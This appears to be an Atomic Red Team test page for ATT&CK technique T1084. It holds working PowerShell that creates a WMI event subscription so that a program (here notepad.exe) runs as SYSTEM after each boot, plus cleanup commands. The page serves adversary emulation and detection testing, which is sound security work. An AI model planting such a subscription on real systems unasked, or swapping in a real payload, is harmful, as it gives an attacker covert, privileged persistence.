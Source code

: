# T1084 - Windows Management Instrumentation Event Subscription
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1084)
<blockquote>Windows Management Instrumentation (WMI) can be used to install event filters, providers, consumers, and bindings that execute code when a defined event occurs. Adversaries may use the capabilities of WMI to subscribe to an event and execute arbitrary code when that event occurs, providing persistence on a system. Adversaries may attempt to evade detection of this technique by compiling WMI scripts into Windows Management Object (MOF) files (.mof extension). (Citation: Dell WMI Persistence) Examples of events that may be subscribed to are the wall clock time or the computer's uptime. (Citation: Kazanciyan 2014) Several threat groups have reportedly used this technique to maintain persistence. (Citation: Mandiant M-Trends 2015)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Persistence](#atomic-test-1---persistence)


<br/>

## Atomic Test #1 - Persistence
Run from an administrator powershell window

After running, reboot the victim machine. After it has been online for 4 minutes you should see notepad.exe running as SYSTEM.

Code references

https://gist.github.com/mattifestation/7fe1df7ca2f08cbfa3d067def00c01af

https://github.com/EmpireProject/Empire/blob/master/data/module_source/persistence/Persistence.psm1#L545

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 
```
$FilterArgs = @{name='AtomicRedTeam-WMIPersistence-Example';
                EventNameSpace='root\CimV2';
                QueryLanguage="WQL";
                Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 325"};
$Filter=New-CimInstance -Namespace root/subscription -ClassName __EventFilter -Property $FilterArgs

$ConsumerArgs = @{name='AtomicRedTeam-WMIPersistence-Example';
                CommandLineTemplate="$($Env:SystemRoot)\System32\notepad.exe";}
$Consumer=New-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -Property $ConsumerArgs

$FilterToConsumerArgs = @{
Filter = [Ref] $Filter;
Consumer = [Ref] $Consumer;
}
$FilterToConsumerBinding = New-CimInstance -Namespace root/subscription -ClassName __FilterToConsumerBinding -Property $FilterToConsumerArgs
```

#### Cleanup Commands:
```
$EventConsumerToCleanup = Get-WmiObject -Namespace root/subscription -Class CommandLineEventConsumer -Filter "Name = 'AtomicRedTeam-WMIPersistence-Example'"
$EventFilterToCleanup = Get-WmiObject -Namespace root/subscription -Class __EventFilter -Filter "Name = 'AtomicRedTeam-WMIPersistence-Example'"
$FilterConsumerBindingToCleanup = Get-WmiObject -Namespace root/subscription -Query "REFERENCES OF {$($EventConsumerToCleanup.__RELPATH)} WHERE ResultClass = __FilterToConsumerBinding" -ErrorAction SilentlyContinue

$FilterConsumerBindingToCleanup | Remove-WmiObject
$EventConsumerToCleanup | Remove-WmiObject
$EventFilterToCleanup | Remove-WmiObject
```





<br/>
